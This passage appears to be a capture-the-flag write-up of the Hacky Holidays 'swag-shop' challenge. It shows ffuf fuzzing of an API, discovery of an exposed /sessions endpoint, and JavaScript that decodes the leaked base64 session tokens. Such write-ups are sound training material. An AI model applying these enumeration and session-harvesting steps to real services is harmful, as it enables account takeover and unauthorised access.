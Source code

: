 The source code reveals there is some sort of API at `https://hackyholidays.h1ctf.com/swag-shop/api/` as the page pulls stock from `https://hackyholidays.h1ctf.com/swag-shop/api/stock`. There's also `https://hackyholidays.h1ctf.com/swag-shop/api/login` and  `https://hackyholidays.h1ctf.com/swag-shop/api/purchase`. Neither seem to want to accept my money so let's break out the fuzzer and see what other endpoints are available to us.

```bash
ffuf -u https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ -w 
seclists/Discovery/Web-Content/common.txt
```

Reveals another, previously unknown, endpoint: `https://hackyholidays.h1ctf.com/swag-shop/api/sessions`

Accessing the `/sessions` endpoint gives us a JSON object with quite a few sessions:

```JSON
{"sessions":["eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJaak0yTXpOak0ySmtaR1V5TXpWbU1tWTJaamN4TmpkbE5ETm1aalF3WlRsbVkyUmhOall4TldNNVkyWTFaalkyT0RVM05qa3hNVFEyTnprMFptSXhPV1poTjJaaFpqZzBZMkU1TnprMU5UUTJNek16WlRjME1XSmxNelZoWkRBME1EVXdZbVEzTkRsbVpURTRNbU5rTWpNeE16VTBNV1JsTVRKaE5XWXpPR1E9In0=","eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNMlEyTURJek5EZzVNV0UwTjJNM05ESm1OVEl5TkdNM05XVXhZV1EwTkRSbFpXSTNNVGc0TWpJM1pHUmtNVGxsWlRNMlpEa3hNR1ZsTldFd05tWmlaV0ZrWmpaaE9EZzRNRFkzT0RsbVpHUmhZVE0xWTJJeU1HVmhNakExTmpkaU5ERmpZekJoTVdRNE5EVTFNRGM0TkRFMVltSTVZVEpqT0RCa01qRm1OMlk9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNV1kzTVRBek1UQmpaR1k0WkdNd1lqSTNaamsyWm1Zek1XSmxNV0V5WlRnMVl6RTBNbVpsWmpNd1ltSmpabVE0WlRVMFkyWXhZelZtWlRNMU4yUTFPRFkyWWpGa1ptRmlObUk1WmpJMU0yTTJNRFZpTmpBMFpqRmpORFZrTlRRNE4yVTJPRGRpTlRKbE1tRmlNVEV4T0RBNE1qVTJNemt4WldOaE5qRmtObVU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRE00WXpoaU4yUTNNbVkwWWpVMk0yRmtabUZsTkRNd01USTVNakV5T0RobE5HRmtNbUk1T1RjeU1EbGtOVEpoWlRjNFlqVXhaakl6TjJRNE5tUmpOamcyTm1VMU16VmxPV0V6T1RFNU5XWXlPVGN3Tm1KbFpESXlORGd5TVRBNVpEQTFPVGxpTVRZeU5EY3pOakZrWm1VME1UZ3hZV0V3TURVMVpXTmhOelE9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJPR0kzTjJFeE9HVmpOek0xWldWbU5UazJaak5rWmpJd00yWmpZemRqTVdOaE9EZzRORGhoT0RSbU5qSTBORFJqWlRkbFpUZzBaVFV3TnpabVpEZGtZVEpqTjJJeU9EWTVZamN4Wm1JNVpHUmlZVGd6WmpoaVpEVmlPV1pqTVRWbFpEZ3pNVEJrTnpObU9ESTBPVE01WkRNM1kySmpabVk0TnpFeU9HRTNOVE09In0="]}
```

They all seem to be base64 encoded, let's have a look at the first one:
```javascript
atob("eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0=");
// {"user":null,"cookie":"YzVmNTJiYTNkOWFlYTY2YjA1ZTY1NDBlNmI0YmZjMmNmZGYzMzg1MWJkZDcyMzY0ZTFlYjdmNDY3NDkzNzIwMGNiZjNhMjQ3Y2RmY2E2N2FmMzdjM2I0ZWNlZTVkM2VkNzU3MTUwYjdkYzkyNWI4Y2I3ZWZiNjk2N2NjOTk0MjU="}"
```

Hmm, a null user... Doing this by hand seems like a chore, let's automate it:
```javascript
fetch("https://hackyholidays.h1ctf.com/swag-shop/api/sessions")
  .then(d => d.json())
  .then(d => {
    d.sessions.forEach(obj => {
      console.log(atob(obj))
    })
  });
```
